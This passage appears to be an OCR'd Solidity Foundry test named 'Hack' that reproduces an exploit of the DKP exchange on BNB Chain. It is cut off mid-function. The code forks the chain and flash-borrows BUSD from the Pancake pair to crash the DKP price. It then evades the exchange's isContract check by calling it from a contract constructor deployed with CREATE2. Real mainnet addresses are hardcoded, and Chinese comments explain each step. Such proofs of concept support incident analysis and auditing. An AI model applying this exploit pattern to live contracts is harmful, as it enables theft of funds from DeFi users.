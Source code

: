 ```solidity
    ) external;
}

interface IDKPExchange {
    function exchange(uint256 amount) external;
}

IERC20 constant DKP = IERC20(0xd06fa1BA7c80F8e113c2dc669A23A9524775cF19);
IERC20 constant BUSD = IERC20(0x55d398326f99059fF775485246999027B3197955);
IUniswapV2Pair constant Pair = IUniswapV2Pair(
    0xBE654FA75bAD4Fd82D3611391fDa6628bB000CC7
);
IRouter constant Router = IRouter(0x10ED43C718714eb63d5aA57B78B54704E256024E);
IDKPExchange constant DKPExchange = IDKPExchange(
    0x89257A52Ad585Aacb1137fCc8abbD03a963B9683
);

contract RunAsNotContract {
    constructor() {
        BUSD.approve(address(DKPExchange), type(uint256).max);
        DKPExchange.exchange(100 * 10 ** BUSD.decimals());
        BUSD.approve(address(DKPExchange), 0);
        DKP.transfer(msg.sender, DKP.balanceOf(address(this)));
    }
}

contract Hack is Test {
    uint256 flashAmount;
    bytes32 the_salt = bytes32(keccak256("the_salt_string"));

    function setUp() public {
        vm.createSelectFork("theNet", 26284131);
        deal(address(BUSD), address(this), 1000 * 10 ** BUSD.decimals());
    }

    function testHack() public {
        emit log_named_decimal_uint(
            "BUSD balance at the beginning",
            BUSD.balanceOf(address(this)),
            BUSD.decimals()
        );

        //借走PAIR中的绝大部分BUSD，让DKP变得非常便宜
        flashAmount = caculateSwapAmount();
        Pair.swap(flashAmount, 0, address(this), abi.encode(flashAmount));

        //兑换BUSD，贷款回调执行完成后再兑换，否则报错"Pancake: LOCKED"
        DKP2BUSD();

        emit log_named_decimal_uint(
            "BUSD balance at the end",
            BUSD.balanceOf(address(this)),
            BUSD.decimals()
        );
    }

    function pancakeCall(address, uint256, uint256, bytes calldata) external {
        //不能直接调用,其判断了调用方是否是合约，其只允许EOA进行exchange
        //DKPExchange.exchange(xxx); // 报错： "no isContract"
        //use this:
        address calcultedAddress = calculteSpecialContractAddress();
        BUSD.transfer(calcultedAddress, 100 * 10 ** BUSD.decimals());
        RunAsNotContract c = new RunAsNotContract{salt: the_salt}(); // exploit in constructor
```